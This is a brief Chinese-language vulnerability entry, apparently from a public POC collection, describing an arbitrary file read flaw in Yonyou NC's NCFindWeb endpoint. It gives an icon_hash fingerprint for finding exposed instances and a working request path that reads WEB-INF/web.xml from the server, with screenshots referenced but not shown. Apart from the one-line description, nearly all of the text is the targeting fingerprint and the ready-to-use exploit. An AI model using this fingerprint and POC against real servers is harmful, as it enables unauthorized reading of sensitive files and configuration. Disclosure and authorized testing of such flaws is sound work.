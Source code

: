 # 用友 NC NCFindWeb 任意文件读取漏洞

# 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## 网络测绘

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](/images/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](/images/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)


